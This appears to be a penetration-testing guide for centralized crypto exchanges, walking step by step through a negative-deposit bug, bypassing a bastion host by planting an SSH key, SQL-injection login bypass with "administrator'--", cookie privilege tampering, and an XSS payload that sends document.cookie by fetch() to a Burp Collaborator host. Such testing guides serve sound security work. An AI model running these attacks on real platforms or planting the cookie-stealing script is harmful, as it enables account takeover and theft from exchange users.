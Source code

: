 # Risks in Cefi
Penetration testing for CeFi platforms involves addressing information leakage, account security, system security, and business scenario security risks.

### Introduction:
CeFi penetration testing refers to a comprehensive security assessment of the systems, networks, and applications of centralized financial institutions by simulating real hacker attacks. Through such testing, potential vulnerabilities can be discovered and fixed, and network security defenses can be strengthened to ensure that the assets and data of financial institutions and users are adequately protected. We're going to outline some of the penetration steps involved with CeFi.

### Order book value payment vulnerability:
In a certain exchange's deposit application, the value range of recharge data is not validated, leading to a negative value chargeback vulnerability in transactions.
![Image text](/pic/cefi1.png)

Step 1: Inputting a negative value.

![Image text](/pic/cefi2.png)

Step 2: After clicking on the confirmation, the two negative values can be reversed and turned into positive values.

![Image text](/pic/cefi3.png)

The recharge interface lacks proper validation and filtering of numerical symbols, which poses a certain security risk.

### Bastion host bypass：
Step 1: First, access Server_A 192.168.31.18 through the bastion host. Since the root password is managed by the bastion host, the root password for Server_B 192.168.31.232 is unknown. 

Employees can establish passwordless login by using the following command: ssh-keygen -b 2048.

![Image text](/pic/cefi4.webp)

Step 2: Access Server_B 192.168.31.232 once again through the bastion host. 

Import the generated public key from the previous step into the "/root/.ssh/authorized_keys" file on 192.168.31.232.

![Image text](/pic/cefi5.avif)

Step 3: By following the above steps, accessing Server_B can be done by first accessing Server_A through the bastion host, and then directly SSHing from Server_A to Server_B.

![Image text](/pic/cefi6.png)

While operations on Server_A can be audited through the bastion host (through session recording), let's assume that Server_A is not managed by the bastion host, and only Server_B is managed. In this case, bypassing the bastion host would result in all administrative operations on Server_B not being audited or recorded.

### Arbitrary user login：
Login bypass is one of the impacts of SQL injection, where an attacker can log in to a vulnerable web application without valid credentials. Attackers exploit SQL injection vulnerabilities to bypass the login functionality and gain access to administrator accounts without a valid password.

![Image text](/pic/cefi7.png)

Step 1: Enter the account name as "administrator" and set an arbitrary password. At this point, start capturing network traffic (packet capture).

![Image text](/pic/cefi8.png)

Step 2: After sending the packet, the login page displays a login failure message.

![Image text](/pic/cefi9.png)

Step 3: Modify the username parameter to "administrator'--".

![Image text](/pic/cefi10.png)

Successfully logged into the system.

![Image text](/pic/cefi11.png)

Regardless of whether 'administrator' is a valid username, the response always returns true, and the '--' comments out the rest of the statement. In the mentioned query, since the condition "AND password = 'password'" is commented out, and the username is "administrator", it will log in to the administrator account. If one can determine a user's account, arbitrary user login can be performed.

### Unauthorized access：

![Image text](/pic/cefi12.png)

Step 1: In Burp Proxy, open Intercept and enable response interception.

![Image text](/pic/cefi13.png)

Step 2: Modify the cookie in the response settings from "Admin=false" to "Admin=true".

![Image text](/pic/cefi14.png)

At this point, the elevation of privileges from a regular user to an administrator level has occurred.

![Image text](/pic/cefi15.png)

You can now perform administrative actions in the management panel.

![Image text](/pic/cefi16.png)

### Cookie reuse：
Currently, there is an XSS vulnerability on the comment page, which allows for the theft of cookies when a victim user views that comment. 

Step 1: Inject XSS attack code into the comment section.

<script>

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {

method: 'POST',

mode: 'no-cors',

body:document.cookie

});

</script>

Step 2: Fill in the relevant email information and submit.

![Image text](/pic/cefi17.png)

Step 3: Use Burp Collaborator to listen for the victim's cookie information.

![Image text](/pic/cefi18.png)

At this point, you have obtained the value of the victim's cookie in the POST request packet.

![Image text](/pic/cefi19.png)

Step 4: Replace the captured victim's cookie with the obtained value.

![Image text](/pic/cefi20.png)

Successful login to the victim's account.

![Image text](/pic/cefi21.png)
